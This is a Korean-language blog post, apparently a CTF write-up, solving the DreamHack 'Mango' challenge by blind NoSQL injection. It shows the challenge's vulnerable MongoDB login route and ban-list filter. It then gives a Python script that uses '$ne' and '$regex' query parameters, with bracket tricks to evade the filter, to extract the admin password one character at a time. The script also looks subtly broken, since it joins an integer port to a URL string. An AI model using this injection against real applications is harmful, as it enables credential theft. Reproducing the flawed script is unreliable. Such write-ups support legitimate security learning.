 ```yaml
---
layout: post
title: "(DreamHack) Mango"
date: 2021-05-25 05:24:00 -0400
categories: Security CTF
---
```


NoSQL은 RDMS와는 달리 쿼리문 없이도 데이터베이스에 저장된 데이터를 조작할 수 있는 개념이다. 본 문제에서는 NoSQL에 Blind injection을 수행하여 안에 저장된 데이터를 조회하도록 한다.

Mongo db는 대표적인 NoSQL이며, 비교 연산자, 논리 연산자를 기본적으로 사용할 수 있고, $regex, $where, $elemMatch 연산자를 통해 좀 더 다양한 기능을 수행할 수 있다.

## 풀이

BAN 변수에는 'admin', 'dh', 'admi'의 문자열이 포함되게 되면 필터링하게 되어있다. 따라서 필터링 되지 않도록 $ne guest를 사용하여 admin을 검색할 수 있도록 하였다.

```javascript
// flag is in db, {'uid': 'admin', 'upw': 'DH{32alphanumeric}'}
const BAN = ['admin', 'dh', 'admi'];

filter = function(data){
    const dump = JSON.stringify(data).toLowerCase();
    var flag = false;
    BAN.forEach(function(word){
        if(dump.indexOf(word)!=-1) flag = true;
    });
    return flag;
}

app.get('/login', function(req, res) {
    if(filter(req.query)){
        res.send('filter');
        return;
    }
    const {uid, upw} = req.query;

    db.collection('user').findOne({
        'uid': uid,
        'upw': upw,
    }, function(err, result){
        if (err){
            res.send('err');
        }else if(result){
            res.send(result['uid']);
        }else{
            res.send('undefined');
        }
    })
});
```

BAN에 dh가 있기 때문에 이를 피하기 위해 [D]를 사용했으며, brute force방식과 유사하게 모든 경우의 수를 탐색할 수 있도록 하였다.

```python
import requests

ascii ='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'

def url(pwd):
    params = {'uid[$ne]':'guest','upw[$regex]':pwd} #uid=[adm]in 등으로 해주어도 된다.
    port = 15108
    req = requests.get('http://host1.dreamhack.games:' + port + '/login',params = params)
    return req

def search(flag):
    global ascii
    for i in ascii:
        ch = flag + '[' + i + ']'
        if "admin" in url(ch).text:
            flag += '[' + i + ']'
            break
    return i

if __name__ == '__main__':
    flag = '[D]H{'
    for i in range(0, 32):
        flag += search(flag)
    print(flag + '}')
```

### Reference
[1] dreamhack. (2020)."Server-side Advanced - NoSQL." Retrieved from https://dreamhack.io/learn/1/29#7